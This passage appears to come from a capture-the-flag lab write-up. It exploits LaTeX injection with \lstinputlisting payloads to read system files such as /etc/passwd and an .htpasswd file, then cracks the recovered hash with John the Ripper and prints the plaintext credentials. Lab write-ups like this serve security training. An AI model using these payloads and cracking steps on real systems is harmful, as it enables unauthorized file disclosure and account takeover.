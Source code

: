 And it works as expected !

```bash
❯ pipenv run python latex_injection.py '$\lstinputlisting{/etc/hostname}$'
Image downloaded and saved as 'output.png'
topology
```

I found another user with a login shell, named `vdaisley` in the `/etc/passwd` file.

```bash
❯ pipenv run python latex_injection.py '$\lstinputlisting{/etc/passwd}$' | grep sh$
root:x:0:0: root:/root:/bin/bash
vdaisley:x:1007:1007: Vajramani Daisley ,W2 | —123,,:/home/ vdaisley :/ bin/bash
```

Now that I can read file contents, and considering that the `dev` subdomain accepts credentials through Basic authentication, I have the potential to read its `htaccess` and `htpasswd` files located in the `/var/www/dev/` directory.

```bash
❯ pipenv run python latex_injection.py '$\lstinputlisting{/etc/apache2/sites-enabled/000-default.conf}$' | grep DocumentRoot
        DocumentRoot    /var/www/html
        DocumentRoot    /var/www/latex
        DocumentRoot    /var/www/dev
        DocumentRoot    /var/www/stats
```

```bash
❯ pipenv run python latex_injection.py '$\lstinputlisting{/var/www/dev/.htaccess}$'
Image downloaded and saved as 'output.png'
AuthName ”Under construction”
AuthType Basic

AuthUserFile /var/www/dev/. htpasswd
Require valid—user
```

The `htpasswd` file stores usernames and their corresponding passwords for basic authentication of HTTP users. These passwords are typically encrypted using md5crypt format.

```bash
❯ pipenv run python latex_injection.py '$\lstinputlisting{/var/www/dev/.htpasswd}$'
Image downloaded and saved as 'output.png'
vdaisley : $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTYO
```

I successfully cracked the hash using JTR and retrieved the credentials: `vdaisley:calculus20`. Using these credentials I can authenticate to the `dev` subdomain.

```bash
> echo 'vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTYO' > hash.txt
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)
1g 0:00:00:08 DONE (2023-10-29 23:27) 0.1234g/s 122927p/s 122927c/s 122927C/s calebd1..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
❯ john hash.txt --show
vdaisley:calculus20
```
